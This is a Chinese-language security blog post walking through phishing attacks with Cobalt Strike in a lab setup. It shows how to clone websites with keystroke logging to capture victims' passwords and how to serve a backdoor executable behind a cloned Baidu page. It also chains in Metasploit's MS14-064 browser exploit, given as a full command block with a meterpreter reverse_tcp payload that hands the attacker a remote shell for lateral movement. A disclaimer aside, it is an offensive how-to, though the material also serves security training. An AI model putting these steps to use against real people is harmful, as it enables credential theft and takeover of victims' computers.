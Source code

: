 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/IMNWfPyMdaOuLacMUrkWcA)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

 |

授权转载，文章来源：“大余 xiyou” 博客

**0x01 前言**

网络钓鱼是社会工程学攻击方式之一，主要是通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段！  

网络钓鱼攻击是个人和公司在保护其信息安全方面面临的最常见的安全挑战之一。无论是获取密码、信用卡还是其他敏感信息，黑客都在使用电子邮件、社交媒体、电话和任何可能的通信方式窃取有价值的数据。

网络钓鱼攻击的兴起对所有组织都构成了重大威胁。重要的是，如果他们要保护自己的信息，所有组织都应该知道如何发现一些最常见的网络钓鱼骗局。同样还要熟悉攻击者用来实施这些骗局的一些最常见的技术类型。

这篇主要演示如何克隆和利用漏洞等方式进行钓鱼，并控制对方！！

**0x02 环境介绍**

**黑客（攻击者）：  
**

IP：192.168.1.9

系统：kali.2020.4

**VPS 服务器：**

目前演示是用 kali 来架设做 VPS 公网服务器的！道理意义一样！

**办公电脑：**

系统：windwos7 和 windwos xp

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcPjhOzyqIkzyCuCL5HIaPKlOjxyEWYPUkmz6pxkpxNwnQ1BIWKDL57g/640?wx_fmt=png)

目前 kali 上运行了 Cobalt strike ，攻击者在自己的公网 VPS 服务器上制作了后门页面钓鱼，通过各种方式办公电脑收到对方邮件或者各种手段发送的钓鱼链接，最终黑客控制办公电脑的过程！！

**0x03 钓鱼演示**

下面会演示到所有 CS 自带模块中的钓鱼攻击演示！！

**1、智能收集**

打开 System Profiler - 分析器功能…，选择克隆 www.baidu.com 页面做钓鱼…

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcqicnpwF79QMAE9HkgkBqXnUeYmKI9bfiasP6HUicLJnHNgh0DPJZyfozQ/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLck6hes46GCxpzpVufpoxlNsLczkkjXibCSeWdRjKVyIclCQQ16J2Jeug/640?wx_fmt=png)  

攻击对象访问：http://192.168.1.9/baidu

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLc2krfiaJlffqVdwnicCAnmCruhiaiaEfsXajcvxOhEcUciaQobQayRWeSXLQ/640?wx_fmt=png)  

当通过各种形式… 将 192.168.1.9/baidu 链接发送给对方，让对方点击后… 跳转到了 baidu 页面…  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcxJOOXcGhOBjvhwvdIHzN3vP3dHuibjWPfCHcVwewD441dQFyic1xzVuw/640?wx_fmt=png)

可看到选择应用信息后，钓到了客户用的系统以及浏览器版本型号… 这里别小看两个信息，思路是该模块可以修改，利用溢出代码等形式提权或者获得更多的信息收集… 下面我会写一些演示！！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcRSuOyqxz9VeqaRicich5pLcCbticyicEkjxicV4xxQVDRhqHPPIGwaxZveQ/640?wx_fmt=png)

**2、克隆模块和克隆网站进行键盘记录攻击**

打开 Web Drive-by–Clone Site 克隆网站模块…

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcxibSatT6jlaoE85qhPSxcQMm3THobTO7jvaLnZHoqYPtuaWSLxR4mbQ/640?wx_fmt=png)

这里克隆网站可以是 http 和 https 的 URL… 克隆到 192.168.2.153:801 链接上！！勾选 Log Keystrokes on cloned site 后，记录键盘操作！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcYnNNvuP6kQvKiaTnyboNQrBQ3T0ELgnHkJGyzfs1FPu0D0gf9sQbgzQ/640?wx_fmt=png)

打开 Web Log 功能查看被攻击方登录页面的操作情况！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcN5s3wfV1adcLrfKrPF3j3SichBF08hqbtTZUDj3XRzwvJUqxQ8Q1KEA/640?wx_fmt=png)

可看到访问 192.168.2.153:801 页面输入了用户名密码…

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLclugBmmUdnM1TH26PZticWeiblhFVXydrXC1lMY3zkPibWyAmXeFicmQDGw/640?wx_fmt=png)

可看到记录了对方输入键盘的信息！！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcUWotkhuu1sBJ8v56jZoA2DWEqwxbNpiawS8QHcz7QBdrNiamCSfUbzcg/640?wx_fmt=png)

**3、克隆网站下载执行木马**

打开 Host File 克隆一个页面并提供一个后门文件…

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcpYvDpmegIBj2IKicNCLxlztQgDBflIibUGxz3eG76hRWFgiaU9TPZwWlA/640?wx_fmt=png)

file：选择 CS 生成的 shell，或者 MSF 也行！确定 URL 下载的地址端口链接等情况！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLclngGbUfvoL6essVb6sacelVl9QP90t7whibEjW5xVG7iaH6F2iaNVHwuw/640?wx_fmt=png)

生成 http://192.168.2.153:801/upload.exe 恶意链接…

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcREGDPhvTVfYHtZIlgUk418g9IstWNPCibPiaJwaelzO6hln4EibpiaWicYg/640?wx_fmt=png)

然后回到方法 2 中！！在打开 Clone Site 联动克隆模块，将克隆 baidu 页面，Attack 攻击选择恶意链接页面进行钓鱼！

意思就是对方访问 http://192.168.2.153:801/dayu 页面后会直接下载 attack 恶意链接后门文件，页面正常跳转到百度页面！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcmdPh6n9nj3R7FJMX6hJDE4aUvAQoBlkWDhRpjmODWib4AE1H8eYjppw/640?wx_fmt=png)

可看到 google 访问该页面下载了 upload.exe 生成的 CS 后门文件… 这里 google 带有 web 安全下载防御功能，IE 高版本也会有提示，这种思路是两个模块配合完成的，其中可以修改图标、文件名、弄个免杀、换个欺骗链接，很好钓鱼！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcicIo2kfXH4MDXepUqnLbo8ibLzajMCZicSE9SfNMU8Qcuvpz7UrfRayAQ/640?wx_fmt=png)

**4、****Metasploit 溢出代码与 Cobalt Strik 配合钓鱼**

本次演示的是思路，拿的是一个针对 XP 或者以下系统，利用 MS14_064 利用 IE 执行远控木马… 记住是思路！！

这里很简单，MSF 执行 exploit 即可获得恶意链接：http://192.168.2.153:6666/Sixcra！

```
use exploit/windows/browser/ms14_064_ole_code_execution
set srvhost 192.168.2.153
set SRVPORT 6666
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.2.153
exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcPGiccLlibUIdswdffM8jCcxwH8bxmdslicbG7rKygJwibOWgGkTbMMTFNw/640?wx_fmt=png)

很简单，利用和方法 3 一样，打开克隆网站模块，放入 Attack 即可！！这里就不勾选键盘记录了，因为直接能控制对方了！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLccvyxOC6RLMc1CqRicouX0ALzT8RicbTiarkgm8VkPiac97OygKnodvbQPg/640?wx_fmt=png)

生成 URL：http://192.168.2.153:80/baidu

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcy2Q1Tt3dRib7O2oFmTUFZwkLKXZbyGkHBghkgeLNaA0YRMxN8xhobKg/640?wx_fmt=png)

可看到当对方访问做好的 http://192.168.2.153:80/baidu 钓鱼页面后，直接跳转到了百度… 但是通过溢出漏洞在攻击端获得了对方的控制 shell…  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLczzB02rx5VCN9WAOVcPbCfgxDsBl9uDOFF50F63dOSSy4IiaRqsmsxfg/640?wx_fmt=png)

通过控制，继续横向渗透即可！！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcBNGgJPj63qjRGAZF7tOPgZ2mID48O0ibRvMoQLFDYRibmV5FibpsibS1uQ/640?wx_fmt=png)

**0x05 总结**

这里有四种方法，总结下思路，就是各种模块之间的配合进行简单的钓鱼，知道这些思路后，还可以和别的钓鱼工具配合，或者是别的方法融合！  

这里提醒下，如果在克隆模块克隆的是 HTTPS 的页面，需要在攻击方加载 SSL 哦，不然没法记录或者执行！！

今天基础牢固就到这里，虽然基础，但是必须牢记于心。

只需关注公众号并回复 “9527” 即可获取一套 HTB 靶场学习文档和视频，“1120” 获取安全参考等安全杂志 PDF 电子版，“1208” 获取个人常用高效爆破字典，“0221” 获取 2020 年酒仙桥文章打包，还在等什么？赶紧关注学习吧！

* * *

**推 荐 阅 读**

  

  

  

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcAcRDPBsTMEQ0pGhzmYrBp7pvhtHnb0sJiaBzhHIILwpLtxYnPjqKmibA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247487086&idx=1&sn=37fa19dd8ddad930c0d60c84e63f7892&chksm=cfa6aa7df8d1236bb49410e03a1678d69d43014893a597a6690a9a97af6eb06c93e860aa6836&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcIJDWu9lMmvjKulJ1TxiavKVzyum8jfLVjSYI21rq57uueQafg0LSTCA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)

[](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484585&idx=1&sn=28a90949e019f9059cf9b48f4d888b2d&chksm=cfa6a0baf8d129ac29061ecee4f459fa8a13d35e68e4d799d5667b1f87dcc76f5bf1604fe5c5&scene=21#wechat_redirect)[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf8eyzKWPF5pVok5vsp74xolhlyLt6UPab7jQddW6ywSs7ibSeMAiae8TXWjHyej0rmzO5iaZCYicSgxg/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

**欢 迎 私 下 骚 扰**

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XOPdGZ2MYOdSMdwH23ehXbQrbUlOvt6Y0G8fqI9wh7f3J29AHLwmxjIicpxcjiaF2icmzsFu0QYcteUg93sgeWGpA/640?wx_fmt=jpeg)